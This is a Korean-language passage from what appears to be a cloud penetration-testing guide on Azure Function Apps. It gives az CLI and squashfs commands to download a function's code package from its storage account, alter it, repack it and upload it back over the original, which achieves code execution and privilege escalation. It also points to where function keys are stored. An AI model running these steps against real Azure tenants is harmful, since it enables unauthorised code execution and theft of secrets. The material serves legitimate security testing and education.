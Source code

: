 > [!CAUTION]
> **zip** 형식의 코드를 포함하는 blob 컨테이너에 연결할 수 있는 충분한 권한이 있으면 Function에서 임의의 코드를 실행하고 권한을 상승시킬 수 있습니다.

- **`github-actions-deploy`** (`WEBSITE_RUN_FROM_PACKAGE)` 

이전 경우와 마찬가지로, 배포가 Github Actions를 통해 이루어지면 Storage Account에서 코드의 zip과 `WEBSITE_RUN_FROM_PACKAGE` 설정에 있는 zip에 대한 SAS URL을 포함하는 **`github-actions-deploy`** 폴더를 찾을 수 있습니다.

- **`scm-releases`**`(WEBSITE_CONTENTAZUREFILECONNECTIONSTRING` 및 `WEBSITE_CONTENTSHARE`) 

Function 데이터를 저장하는 Storage Account 내의 컨테이너를 읽을 수 있는 권한이 있으면 **`scm-releases`** 컨테이너를 찾을 수 있습니다. 그 안에서 **Squashfs 파일 시스템 파일 형식**의 최신 릴리스를 찾을 수 있으며, 따라서 함수의 코드를 읽을 수 있습니다:
```bash
# List containers inside the storage account of the function app
az storage container list \
--account-name <acc-name> \
--output table

# List files inside one container
az storage blob list \
--account-name <acc-name> \
--container-name <container-name> \
--output table

# Download file
az storage blob download \
--account-name <res-group> \
--container-name scm-releases \
--name scm-latest-<app-name>.zip \
--file /tmp/scm-latest-<app-name>.zip

## Even if it looks like the file is a .zip, it's a Squashfs filesystem

# Install
brew install squashfs

# List contents of the filesystem
unsquashfs -l "/tmp/scm-latest-<app-name>.zip"

# Get all the contents
mkdir /tmp/fs
unsquashfs -d /tmp/fs /tmp/scm-latest-<app-name>.zip
```
**마스터 및 함수 키**는 JSON 파일에서 찾을 수 있는 **`<app-name>`** 폴더 내의 **`azure-webjobs-secrets`** 컨테이너에 저장된 스토리지 계정에서 찾을 수도 있습니다.

> [!CAUTION]
> **zip 확장 파일**로 된 코드를 포함하는 blob 컨테이너에 연결할 수 있는 충분한 권한이 있으면 (실제로는 **`squashfs`**) 함수에서 임의의 코드를 실행하고 권한을 상승시킬 수 있습니다.
```bash
# Modify code inside the script in /tmp/fs adding your code

# Generate new filesystem file
mksquashfs /tmp/fs /tmp/scm-latest-<app-name>.zip  -b 131072 -noappend

# Upload it to the blob storage
az storage blob upload \
--account-name <storage-account> \
--container-name scm-releases \
--name scm-latest-<app-name>.zip \
--file /tmp/scm-latest-<app-name>.zip \
--overwrite
```
### `Microsoft.Web/sites/host/listkeys/action`
